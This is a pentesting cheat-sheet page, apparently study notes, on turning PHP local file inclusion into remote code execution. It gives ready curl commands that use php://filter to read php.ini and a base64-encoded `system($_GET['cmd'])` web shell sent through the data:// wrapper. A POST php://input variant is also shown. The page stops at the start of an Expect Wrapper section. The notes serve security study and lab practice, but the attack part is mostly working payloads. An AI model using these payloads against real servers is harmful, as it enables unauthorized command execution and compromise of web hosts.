 ***

## **LFI to RCE abusing PHP Data Wrapper**

> * The PHP Data Wrapper can be used to **include external data, including PHP code**
> * The Data Wrapper is **only available to use if the (`allow_url_include`) setting is enabled** in the PHP configurations.
> * This option is **not enabled by default**
> * This option is required for any RFI attack and several LFI attacks

**The steps to abuse the PHP Data Wrapper to gain RCE are the following:**

1. Check if `allow_url_include` is enabled:
   * To do so, you need to read the PHP configuration file found at
   * (`/etc/php/X.Y/apache2/php.ini`) for Apache
   * (`/etc/php/X.Y/fpm/php.ini`) for Nginx,
   * where `X.Y` is your install PHP version
2. Read the PHP Configuration File using the base64 filter (to ensure everything is read properly)
   * `curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"`
3. Once we have the base64 encoded string, we can decode it and `grep` for `allow_url_include` to see its value
   * `echo <BASE64VALUE> | base64 -d | grep allow_url_include`
4. If `allow_url_include` is `ON`, then it is possible to `gain RCE` using the following:
   * Generate the base64 version of the PHP RCE Payload\
     `echo '<?php system($_GET["cmd"]); ?>' | base64`
   * URL encode the base64 string
   * Pass it to the data wrapper with `data://text/plain;base64,`
   * Append `&cmd=<COMMAND>`
   * For example: `http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=id`

***

## **LFI to RCE abusing PHP Input Wrapper**

> * The PHP Data Wrapper can be used to **include external data, including PHP code**
> * The Data Wrapper is **only available to use if the (`allow_url_include`) setting is enabled** in the PHP configurations.
> * This option is **not enabled by default**
> * This option is required for any RFI attack and several LFI attacks
> * It's basically **the same as the PHP Data Wrapper**, but this requires a **POST request**

**The steps required to gain RCE are the same as the PHP Data Wrapper, you only need to change the GET request to POST using the following**

* `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"`

***

## **LFI to RCE abusing PHP Expect Wrapper**

